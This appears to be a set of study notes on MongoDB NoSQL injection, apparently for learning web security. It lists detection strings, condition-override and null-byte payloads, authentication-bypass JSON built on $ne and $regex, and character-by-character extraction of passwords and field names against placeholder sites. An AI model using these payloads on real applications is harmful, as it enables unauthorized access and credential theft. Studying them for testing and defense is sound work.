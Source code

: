 
## syntax injection 
- this type is very rare now

consider this mongodb query for the following examples : 
```js
db.users.find({ $where: function () { return this.name == <userInput> } });
```
or 
```js
 db.users.find({ $expr: { $function: { body: function (name) {return name == <userInput>;}, args: ["$name"], lang: "js" } } })
```


#### **Detecting syntax injection**
- submit strings and special characters that trigger a database error or some other detectable behavior 
EX : mongodb 
```mongodb
'"`{
;$Foo}
$Foo \xYZ
```
Url version : 
```url
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
- In some applications, you may need to inject your payload via a JSON property instead 
JSON version :
```

'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

#### **Determining which characters are processed**
```
https://insecure-website.com/product/lookup?category='    => cause error
https://insecure-website.com/product/lookup?category=\'   => work
```

#### **Confirming conditional behavior**
```
' && 0 && 'x
' && 1 && 'x
```

#### **Overriding existing conditions**
payload:
```
fizzy'||'1'=='1
```
url sent:
```
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27
```
mongodb query in backend :
```js
db.users.find({ $where: function () { return this.name == 'fizzy'||'1'=='1' } });
```

- You could also add a **null character** after the category value. MongoDB may ignore all characters after a null character. 
- This means that any additional conditions on the MongoDB query are ignored

**EX:** all products in the fizzy category are displayed, including unreleased products : 
```
db.products.find({ $where: function () { return 'fizzy'\u0000' && this.released == 1 });
```

#### **extract data**

to know some condtions 
```
admin' && this.password.match(/\d/) || 'a'=='b     => check if it has digits or no
```

check length
```
admin' && this.password.length < 30 || 'a'=='b
```

extract password
```
admin' && this.password[0] == 'a' || 'a'=='b
```

query in the backend
```
db.users.find({$where : function(){ return this.name == "admin' && this.password[0] == 'a' || 'a'=='b' ; }}) ;
```





## NoSQL operator injection

Operator | Description
--- | ---
`$where` | Matches documents that satisfy a JavaScript expression. This operator allows you to write custom JavaScript functions to filter and select documents in a collection. It's a powerful but potentially slow operator, so use it with caution.
`$ne` | Matches all values that are not equal to a specified value. It's used to find documents where a specific field is not equal to a given value.
`$in` | Matches all of the values specified in an array. It's used to find documents where a specific field's value is one of the values in a provided array.
`$regex` | Selects documents where values match a specified regular expression. It's used for pattern matching to find documents with values that match a given regular expression pattern. This is especially useful for text-based searches.


#### **Submitting query operators**

In JSON:
```json
{"username":{"$ne":"invalid"}}
```
In URL-based:
```
GET : 

http://vulnApp/login/?username[$ne]=invalid

POST :

username[$ne]=invalid

```

**EX:** Auth bypass Example : 
```json 
{
"username":{
"$regex" : "admin.*"
},
"password":{
"$ne" : "ayklam"
}
}
```
#### **Extracting field names**

test
```json
{"username":"wiener","password":"peter", "$where":"0"}
{"username":"wiener","password":"peter", "$where":"1"}
```
exploit
```json
{"username":"wiener","password":"peter", "$where":"Object.keys(this)[0].match('^a.*')"}   =>  check if the first filed data start with letter 'a'
```
query in the backend
```
db.users.find({$where : function(){ return Object.keys(this)[1].match('^n.*')  }}) ;
```


#### **Exfiltrating data using operators**

For example:
```
{"username":"myuser","password":"mypass"}
```
If the response to this request is different to the one you receive when you submit an incorrect password, this indicates that the application may be vulnerable
```
{"username":"admin","password":{"$regex":"^.*"}}  
```
extract data
```json
{"username":"admin","password":{"$regex":"^a*"}}
```
